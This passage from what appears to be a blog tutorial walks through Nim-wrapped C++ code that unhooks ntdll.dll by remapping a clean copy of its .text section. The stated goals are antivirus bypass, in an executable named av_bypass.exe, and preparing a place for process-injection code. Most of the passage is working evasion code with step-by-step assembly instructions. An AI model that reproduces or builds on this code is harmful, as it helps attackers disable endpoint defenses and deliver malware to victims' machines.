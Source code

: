             if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
                DWORD oldProtection = 0;
                bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
                memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
                isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
            }
        }
        
        CloseHandle(process);
        CloseHandle(ntdllFile);
        CloseHandle(ntdllMapping);
        FreeLibrary(ntdllModule);
        
        return 1;
    }
    """.}
    proc unhook(): int
        {.importcpp: "test", nodecl.}
    
    ### end av evasion (c++ code)
    
    when isMainModule:
        var result = unhook()
        echo "[*] Assembly executed: ", bool(result)
        # Every code from here is not hooked / detected from Windows API imports at runtime anymore
    

In the above, I inserted only the code dealing directly with the C++ code between the av evasion comments.  This is because the section on line 53 that starts with “when isMainModule” is the main body of our code that will move to the end.  The C++ portion of this code is everything from line 8 {.emit: """   all the way to   """} on line 47.  

In Part Two of this post, I will look deeper into what each section of this code is doing, but as an overview, this Nim-wrapped C++ code detects the handles of the current process (our av_bypass.exe) and the ntdll.dll file loaded on initialization.  It then loads a new instance of the ntdll.dll file in memory, unlinks the old ntdll and re-maps to the new before cleaning up.

As a final step here, delete everything after the "proc unhook(): int" function shown in lines 10 and 11 below and insert the comments and several blank lines to create a working area to add the process injection code:

    when not defined(cpp):
        {.error: "Must be compiled in cpp mode"}
    # Stolen from https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++
    
    {.emit: """
    #include <iostream>
    #include <Windows.h>
    #include <winternl.h>
    #include <psapi.h>
    